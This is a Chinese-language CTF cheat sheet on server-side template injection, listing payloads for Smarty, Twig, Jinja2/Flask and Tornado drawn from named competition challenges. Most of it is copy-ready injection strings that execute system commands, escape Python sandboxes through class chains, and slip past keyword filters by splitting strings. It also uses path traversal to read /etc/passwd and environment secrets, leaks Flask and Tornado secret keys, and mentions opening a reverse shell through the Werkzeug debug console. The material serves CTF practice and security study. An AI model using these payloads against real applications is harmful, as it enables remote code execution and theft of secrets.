

# SSTI



[hideandseek](https://www.baidu.com/s?wd=hctf2018+hideandseek)

linux service 越权
非预期 unicode 绕过

### ssti smarty

`[BJDCTF2020]The mystery of ip`
`[CISCN2019 华东南赛区]Web11`

```
{if phpinfo()}{/if}
{if system('ls')}{/if}
{ readfile('/flag') }
{if show_source('/flag')}{/if}
{if system('cat /flag')}{/if} #本题payload
{if system('cat ../../../flag')}{/if} #本题payload
X-Forwarded-For: {{system("ls")}}
X-Forwarded-For: {{system("cat /flag")}} #本题payload
```

### ssti 服务器模板注入 twig

```
user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

### ssti 服务器模板注入 jinja2 - payload

```py
{{url_for['__glob'~'als__']}}
{{url_for['__glob'~'als__']['__built'~'ins__']['eval']("next(open('/flag'))")}}
{{url_for['__glob'~'als__']['os']['popen']("cat *")['read']()}}
```

### ssti 服务器模板注入 jinja2


`buuoj [RootersCTF2019]l_<3_Flask`

[[WesternCTF2018]shrine](https://www.cnblogs.com/Cl0ud/p/12316287.html)

    {{self.__dict__}}
    {{url_for.__globals__['current_app'].config}}
    {{get_flashed_messages.__globals__['current_app'].config}}

[pasecactf_2019_flask_ssti](https://guokeya.github.io/post/zIiwsY95N/)

内置函数 `print(help(dir(__builtins__)))`

ssti 方式

```
?flag={{config.SECRET_KEY}}
/hello?name={{7*7}}
/hello?name={{config}}

原题目通过lfi, 文件穿越
/downloadj?image=1.jpg
/downloadj?image=../../../../../../../etc/passwd/

查看程序环境变量
/downloadj?image=../../../../../../../proc/self/environ
看到secret_key
```

### PIN 码

debug 开启 才有 PIN 码问题

```html
{{...}}报错
```

得到，PIN 码怎样访问？

```html
name={{...}} 看报错信息，
```

找一行，点右边的 terminal 图标，输入 PIN 码。进入 console。

```python
## console中执行
import os
os.system('ls') # 并没有得到返回输出全部内容，返回了0.只得到返回值
os.popen('ls').read() # 得到了结果。
os.popen('ls /').read()
os.popen('ls /app').read() # 发现 flag
os.popen('cat /app/flag').read()
## 也可以写个反向shell，拿到更多权限。
```

### ssti 注入

测试

<pre>/hello?name=







</pre>

输出了结果，说明有漏洞

```python
/hello?name={{config.__class__.__init__.__globals__['os'].popen('cat ../app/flag').read()}}
/hello?name={{"".__class__}} 返回str
/hello?name={{"".__class__.__base__}}
/hello?name={{"".__class__.__base__.__subclasses__()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302]}} # popen
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("ls").read()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("ls /").read()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("ls /app").read()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("cat /app/flag").read()}}
[].__class__.__base__.__subclasses__()[58].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag.txt').read()")
# python2 input漏洞
__import__('os').popen('cat /flag.txt').read()
### appconfig
__class__.__init__.__globals__[app].config
?err=pfn&back={0.__class__.__init__.__globals__}   # 等于 pnf.__class__.__init__.__globals__
```

方式 2

```py
# 读取app.py  -- [GYCTF2020]FlaskApp
{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read()}}
# 读目录 ls/
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}
# 拼接大法
{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}
{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt','r').read()}}
```

生产环境不要开 debug 模式

### ssti 注入\_tornado

[2018 护网杯 easy_tornado(BUUCTF 提供复现)](https://blog.csdn.net/zz_Caleb/article/details/101473013)

那么 tornado 中的 cookie 通过 handler.settings 对象

handler 指向 RequestHandler
而 RequestHandler.settings 又指向 self.application.settings
所有 handler.settings 就指向 RequestHandler.application.settings 了！

传递 error?msg={{ handler.settings }}得到：

'cookie_secret': 'b8e09977-6541-498b-9a30-08e3118b6e60'}

filehash: md5(cookie_secret+md5(filename))

## GDOUCTF 2023 ez_ze

[SSTI 绕过 | [GDOUCTF 2023]<ez_ze>](https://www.nssctf.cn/problem/3745) [参考文章](https://zhuanlan.zhihu.com/p/619441473)

可用 payload：

```python









{%set command=char(99)%2bchar(97)%2bchar(116)%2bchar(32)%2bchar(47)%2bchar(102)%2bchar(108)%2bchar(97)%2bchar(103)%}



```
